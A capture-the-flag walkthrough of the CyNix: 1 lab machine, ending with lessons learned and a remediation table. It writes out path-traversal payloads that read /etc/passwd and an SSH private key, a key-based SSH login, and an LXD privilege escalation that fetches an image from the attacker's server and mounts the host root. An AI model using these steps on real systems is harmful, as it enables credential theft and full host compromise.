




# CyNix: 1 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.105 |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Goal** | Two flags: user.txt and root flag.txt |
| **Source** | [HackingArticles](https://www.hackingarticles.in/cynix1-vulnhub-walkthrough/) |

## Attack Summary

CyNix: 1 combines a client-side CSS bypass, Local File Inclusion (LFI), SSH private key theft, and privilege escalation via LXD group membership. The web application hosts a hidden form whose visibility is controlled by an inline CSS `opacity: 0` attribute. Once exposed, the form's `file` parameter is vulnerable to path traversal, allowing an attacker to read `/etc/passwd` and extract SSH private keys. The compromised user belongs to the `lxd` group, which enables creation of a privileged container that mounts the host filesystem, granting full read access to `/root`.

## Methodology

1. Reconnaissance — Netdiscover + Nmap
2. Directory brute-force — DirBuster
3. Hidden form exposure — browser developer tools
4. LFI exploitation — Burp Suite Repeater
5. SSH private key exfiltration via LFI
6. Initial access via SSH
7. LXD privilege escalation

## Step 1: Host Discovery and Port Scanning

Run Netdiscover to identify the target on the local network, then perform a full-port aggressive scan:

```bash
netdiscover -r 192.168.1.0/24
nmap -p- -A 192.168.1.105
```

Open ports:
- `80/tcp` — Apache HTTP
- `6688/tcp` — SSH


## Step 2: Web Enumeration

The web root shows only the default Apache page. Run DirBuster to brute-force directories:

```bash
dirb http://192.168.1.105 /usr/share/dirb/wordlists/common.txt
```

DirBuster finds `/lavalamp`. Navigating to it reveals a contact form that POSTs to `canyoubypassme.php`. Visiting `/lavalamp/canyoubypassme.php` directly shows only an image, but the page source contains a hidden form with `style="opacity:0"`.



## Step 3: Expose the Hidden Form

Open browser developer tools (F12), locate the form element that has `opacity: 0`, and change the value to `1`. The form becomes visible. Submitting it sends a `file=1` POST parameter, which is captured in Burp Suite Proxy.

Forward the request to Burp Repeater and test for Local File Inclusion:

```
POST /lavalamp/canyoubypassme.php HTTP/1.1
Host: 192.168.1.105

file=../../../etc/passwd
```

The response returns the contents of `/etc/passwd`, confirming path traversal LFI. Users `ford` and `lxd` are visible.



## Step 4: Extract SSH Private Key via LFI

With ford's home directory established, read the SSH private key:

```
file=../../../home/ford/.ssh/id_rsa
```

Copy the returned key content into a local file named `key`:

```bash
nano key   # paste the key content
chmod 600 key
```



## Step 5: Initial Access via SSH

Use the extracted key to log in as ford on the non-standard SSH port:

```bash
ssh -i key -p 6688 ford@192.168.1.105
```

Read the first flag:

```bash
cat ~/user.txt
```

Confirm group membership:

```bash
id
# uid=1001(ford) gid=1001(ford) groups=1001(ford),116(lxd)
```

The `lxd` group membership enables container-based privilege escalation.

## Step 6: LXD Privilege Escalation

### On the attacker machine

Clone the Alpine builder and create a minimal LXD image:

```bash
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo ./build-alpine
# produces: alpine-v3.10-x86_64-20191008_1227.tar.gz
python -m SimpleHTTPServer 8000
```

### On the target machine (as ford)

```bash
cd /tmp
wget http://192.168.1.107:8000/alpine-v3.10-x86_64-20191008_1227.tar.gz
lxc image import ./alpine-v3.10-x86_64-20191008_1227.tar.gz --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

### Inside the container

```bash
id
# uid=0(root) gid=0(root)
cat /mnt/root/root/flag.txt
```

The host filesystem is mounted at `/mnt/root`, giving unrestricted read access to the root directory.



## Lessons Learned

- Client-side controls (CSS opacity, hidden form fields) are never a security boundary. Any user can modify DOM properties via developer tools.
- LFI vulnerabilities that can read arbitrary files on the system are critical when private key files are accessible to the web server process.
- Membership in the `lxd` group is equivalent to root access on the host. Group assignments must be audited as carefully as sudo rules.
- The SSH private key was stored in a location readable by the web server, violating the principle of least privilege.

## Remediation

| Vulnerability | Fix |
|---|---|
| Hidden form exposed via CSS | Move sensitive functionality behind server-side authentication, not CSS visibility |
| LFI in `file` parameter | Validate and whitelist allowed file paths; never pass user input directly to filesystem functions |
| SSH private key world-readable | Restrict key permissions to the owning user; keep keys outside the web root |
| LXD group privilege escalation | Remove users from the `lxd` group unless strictly required; use AppArmor/seccomp profiles |
